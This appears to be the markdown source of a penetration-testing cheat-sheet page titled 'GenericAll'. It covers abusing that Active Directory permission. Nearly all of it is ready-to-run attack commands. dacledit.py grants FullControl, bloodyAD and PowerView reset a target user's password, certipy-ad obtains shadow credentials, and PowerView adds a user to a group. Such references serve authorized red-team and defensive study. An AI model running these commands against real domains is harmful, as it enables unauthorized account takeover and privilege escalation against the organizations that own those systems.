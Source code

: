 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["GenericAll", "active driectory", "ad", "Windows", "shadow credentials"]
---
```


---
### Abuse #1: Change target user password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Install latest impacket (included dacledit.py) \[optional\]

<div>

```bash
git clone https://github.com/fortra/impacket.git
```

```bash
cd impacket
```

```bash
pip3 install .
```

</div>

#### 1. Add Full Control to current user \[optional\]

<div>

```bash
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=EXAMPLE,DC=COM' -inheritance -action write -rights FullControl
```

</div>

#### 2. Change password

{{< tab set2 tab1 active >}}BloodyAD{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Change target user password

<div>

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```powershell
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```bash
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password <PASSWORD> -k -account <TARGET_USER> -target <DC>
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 2. Add user to group

<div>

```powershell
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>